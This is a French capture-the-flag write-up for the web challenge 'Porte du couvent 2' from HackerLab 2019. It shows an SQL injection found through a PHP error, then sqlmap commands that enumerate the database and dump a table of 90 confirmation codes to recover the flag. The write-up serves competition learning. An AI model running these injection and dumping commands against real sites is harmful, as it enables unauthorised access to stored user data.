

* * *
# Porte du couvent 2
> (Web, 400 points )
---
## Challenge :
> http://qualif.hackerlab.bj/porte_couvent/

En accédant au lien du challenge, on se voit présenter un formulaire :



On remarque qu'en mettant le **pseudo** d'un participant de la *phase présentielle* du **hackerlab**, on arrive à retrouver son **code de confirmation**. Essayons de voir si le formulaire est vulnérable à l'attaque d'injection **SQL**. L'idée derrière est d'arriver à afficher tous les codes de confirmation stockés dans la base données . Pour le faire, mettons le caractère << *'* >> dans le champ ```pseudo``` du formulaire. La réponse obtenue en retour est une erreur **PHP** :

```
Warning: mysqli_fetch_array() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/porte_couvent/index.php on line 64
``` 

Cette **erreur** est une preuve évidente d'une faille d'injection **SQL**. Pour mener à bien notre attaque, nous ferions usage du célèbre outil d'automatisation des injections **SQL**, qui est **sqlmap (https://github.com/sqlmapproject/sqlmap)**

```console
root@Y3HW3_Hack3r:~/HackerLab2019# sqlmap -u "http://qualif.hackerlab.bj/porte_couvent/index.php?nom='&submit=" --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

available databases [5]:                                                                                                                            
[*] information_schema
[*] mysql
[*] performance_schema
[*] qualif
[*] sys
```
De cette sortie, on repère une base de données ```qualif```. Tentons d'afficher les différentes tables de cette ```BD```.

```console 
root@Y3HW3_Hack3r:~/HackerLab2019# sqlmap -u "http://qualif.hackerlab.bj/porte_couvent/index.php?nom='&submit=" -D qualif --tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Database: qualif
[1 table]
+-------------------+
| winners_hackerlab |
+-------------------+
```

Nous repérons une table ```winners_hackerlab```. Essayons maintenant d'afficher toutes les colonnes de cette table. 

```console
root@Y3HW3_Hack3r:~/HackerLab2019# sqlmap -u "http://qualif.hackerlab.bj/porte_couvent/index.php?nom='&submit=" -D qualif -T winners_hackerlab --column
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.4#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[22:08:46] [INFO] fetching columns for table 'winners_hackerlab' in database 'qualif'
[22:08:46] [INFO] used SQL query returns 7 entries
[22:08:46] [INFO] resumed: 'id','int(11)'
[22:08:46] [INFO] resumed: 'username','varchar(50)'
[22:08:46] [INFO] resumed: 'telephone','varchar(50)'
[22:08:46] [INFO] resumed: 'code','varchar(50)'
[22:08:46] [INFO] resumed: 'dateinscription','varchar(50)'
[22:08:46] [INFO] resumed: 'ip_adress','varchar(100)'
[22:08:46] [INFO] resumed: 'country','varchar(50)'
Database: qualif                                                                                                                                    
Table: winners_hackerlab
[7 columns]
+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
| code            | varchar(50)  |
| country         | varchar(50)  |
| dateinscription | varchar(50)  |
| id              | int(11)      |
| ip_adress       | varchar(100) |
| telephone       | varchar(50)  |
| username        | varchar(50)  |
+-----------------+--------------+
```

Après ceci, nous observons la colonne ```code```, stockant sûrement la liste de tous les codes de confirmation. Pour l'afficher, il faudra exécuter cette dernière commande : 

```console
root@Y3HW3_Hack3r:~/HackerLab2019# sqlmap -u "http://qualif.hackerlab.bj/porte_couvent/index.php?nom='&submit=" -D qualif -T winners_hackerlab -C code --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.4#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Database: qualif
Table: winners_hackerlab
[90 entries]
+------------------------------------------+
| code                                     |
+------------------------------------------+
| 034c35ef150fb7222104241920af11932f577e56 |
| 03fbebf8f835fd49230298f5a6d64ea4f3a4ec77 |
| 047009429348ee1b9753221224bd945acb8c2513 |
| 08047c09adf1bdfe9863769ff6c7a9fa96061598 |
| 0829b6e746be6de8e75663ffc245229ed52009ce |
| 08e599b71a178144c3831baf43663b7ba5c370e6 |
| 0cab4911c233129e99623d0c94185c9b33c63e9f |
| 0ea90b79f0c5f538e5d20c3c822732b3c459b16c |
| 0ecf604505966d1a92152f4de88529b8da5de4cb |
| 0f8ffc344cc7e78eccca3d5b148db23350d62377 |
| 10d2bca5afbab47ff29ada0cee681a43334e453c |
| 111a1e5243a431b9f9b470955c71505478e609b3 |
| 1136e921e3b4fc206e48b4cc3b6f814cf2ec3b45 |
| 129bb7c6d2b9cd88cdfcdaa3a3fbdbf43b8ce311 |
| 152f168df6015696b3f4f2b0ed0f88f51a3b0cf4 |
| 1ebe56677531b07b8572592ddb40c5171d2b994e |
| 1fc23505f7a76a45c11e649d6a7581bc6bbda0d7 |
| 28502b19e86c62a0e5744209607a2b6ae5299d63 |
| 29b10c8ccdb7f1ce08975325b26e7af26e035fbf |
| 2ab204e29d06fcb3102ae5e0a66980dd2164f6fd |
| 2fd3dff05a903e019d4947881a7d9cd4ad70d68f |
| 31fb5ad20a46b84ec11470cb643c54bab0e8806b |
| 336765250f1fa7e6ee8d190c23f50bc0ac1507ae |
| 37a14ddb3bca53d2c370eb1c055c93f31fb63a48 |
| 39afb2b88f925fc63782b04e0b427905e7381470 |
| 3ab91c1c21ae82122af5f3ace969b39b945028ec |
| 3efd89d2b481f95c8be45f8bbc7cc910c5ea334c |
| 400df6dead2c888f9a3f990f6c4becdf0b04a239 |
| 45b9140f104743ffb18e68df9a8f414badd3f487 |
| 471db6cf5589220de11e6c1b94bde1df530b87e1 |
| 4a200710083045c4f3b9ae8172d2ec8082ae86b5 |
| 4b9112835643370da619de60026d2123add08c52 |
| 517114303910103d05a7f55874f756f1ee1effbd |
| 56d4ccec5a5add37b1b1fb33deaafa12cf3dff19 |
| 5704926a7d84c0347974267227bc1d1a22dcd57c |
| 57ad53b45f5c0f65f2a34ac65d0f84182d7c55a5 |
| 5a494a2785eab48c4a72496dbeacda514f48731c |
| 5ad4daca7b683a90542ac4777f159607b8eab06f |
| 5eafb4710ce9d5f0f150b3533055986677d477b2 |
| 5ef94235bf68c4fb662cefe17322ece5f83a9e96 |
| 61ebd70ebfa1ee1020143b25f55d338897aae84d |
| 67d16817c7f88810eab1bbd5f4867dd4802e375e |
| 67e71f784f9ed73613ac5203da8ae08cc990d1fb |
| 6ad97c8d6861a9e3806289c85705a4213a8230b0 |
| 6c294d7cda8a9ddfd8b4e90ea0360df377df8189 |
| 6dba0d1a1d591dcc46a93500c227a04f9a9437c4 |
| 70ca18ae2c9b29430f85d8a9c252a280d53f4ea9 |
| 715289ecbf9075341907e047df037083d55a50e4 |
| 78af24295e2c85a163d29647f17bc0b0d14067b3 |
| 7e0e92a8cfec278aa46359b430c9d2a16c0728ab |
| 7fbe783bfa13a75f1ea9394174fe248975754451 |
| 83346a1106f4d93306c13959a6c7de065137b1bd |
| 86ec9f687367917d88fe68b95944a3f4d057583e |
| 88e7d05d7ba21ad33f19caffaf57d4fdef9368a3 |
| 8cc97920bb3fc2359d698c992c8fb479afaeffd0 |
| 8ee1f8fde11c976f3f23a0b0ecb858902bf228aa |
| 8f9713601e5cdbccc498c1863c724178d2c67a7c |
| 94bfb24708524344a0372cf501ee4b947be7b4f3 |
| 99a84e9659834838ace2b349530719a798083ee9 |
| 9b9e4377418bad9cc2c57f1e9a87af5574f14604 |
| 9ddad9c122d1b28e505ba8a40c1e3e7bc7160e59 |
| 9eb7d658d9c8733608f0b8156d6deb3ee280136f |
| 9fea22b6516d7cbc5f3447ecb1891f776911bb65 |
| a16261b74db96ae8f63fd30fabe7051534d62c58 |
| a7f6976c8db7f36031e7d965cef10323978f0e39 |
| ab7ebbb4d42bce0b30d8b41cb1052827b67a2462 |
| ac55110d368ac367eeccae56065f2047ce995e21 |
| ac6413e06ddbcd73b3cd00a9ed1dcba822cae4b1 |
| b0412c35241d02988793f6082b61c2f31fa04ab4 |
| bc40b583b4b43f2d1e940644fa2d6e501fbb4863 |
| c0e4be83a73938af82ebdd52237c361875775998 |
| c0ed09712039feddf47f2079699e0744239ac573 |
| c12635b463a1358a83d6632f228d644a0009a9c7 |
| c1bf66c43ec39e6e33b07403c72198e3908bce0f |
| c4d94d61e0445c050c98e8b365ffd05181751f40 |
| c64f1b18c1bd17042a4cb35c0575e9a72fd14582 |
| c861b37e27d56145a0296588bcacbecf065d7de8 |
| c91b84766c25c6f92d9043e0b5dff9c0787daf37 |
| cb81aa9b474b4596f99460a3026d367f4d4f92b8 |
| CTF_SQL_DANGEROUS_INJECTOR_              |
| d0481752e9909fed51a194bf6b7ad56c4cb1a29b |
| d1342052a704c5a00ecd76b4a97abc8094061ed1 |
| d4c55da03c46a8f3097ced9472d3421406bbaec5 |
| ed3cec74ea647312f371a09327b91141c6c2b1e3 |
| edf6bd4ce755a71b0ab1b50bf37f7e2616091ffa |
| efbde416e923ea36d2095596866804cbba9878e8 |
| f2d9ecb1c7db2989d18432bf677367c98637118e |
| f776e80439ea86c27cb0ef3cc4d9590b10daa8ab |
| f7d370c50384d4dbd99aef9c6703aa2c4dc4794b |
| ff192c4f2145fa77f2b1b2dd7021f2c9a3421f00 |
+------------------------------------------+
```
 
Parmi cette liste de code de confirmation, on fini par retrouver notre ```flag```.

```Flag ```: **CTF_SQL_DANGEROUS_INJECTOR**
